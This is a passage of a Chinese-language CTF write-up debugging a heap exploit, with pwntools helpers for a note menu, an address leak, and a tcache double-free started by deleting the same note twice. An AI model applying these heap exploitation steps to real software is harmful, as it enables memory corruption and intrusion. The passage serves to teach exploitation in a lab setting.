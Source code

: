 ### EXP

#### 调试过程

我们就按照上面所说的这个利用思路来进行调试。

定义好相关的函数：

```python
def add_note(size:int):
    global io
    io.sendlineafter("Your Choice: ", '1')
    io.sendlineafter("size: ", str(size))
    io.recvuntil("Done!\n")

def show_note(idx:int):
    global io
    io.sendlineafter("Your Choice: ", '2')
    io.sendlineafter("id: ", str(idx))
    msg = io.recvline()
    leak_addr = msg[9:15]
    leak_addr = u64(leak_addr.ljust(8, b'\x00'))
    LOG_ADDR('leak_addr', leak_addr)
    io.recvuntil("Done!\n")
    return leak_addr

def edit_note(idx:int, content:bytes=b'a'):
    global io
    io.sendlineafter("Your Choice: ", '3')
    io.sendlineafter("id: ", str(idx))
    io.sendafter("content: ", content)
    io.recvuntil("Done!\n")

def del_note(idx:int):
    global io
    io.sendlineafter("Your Choice: ", '4')
    io.sendlineafter("id: ", str(idx))
    io.recvuntil("Done!\n")
```



首先执行两次`add_note`

```python
add_note(0x100) # 0
add_note(0x100) # 1
```

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210319235345.png)



然后，执行`tcache dup`：

```python
del_note(1)
del_note(1)
```
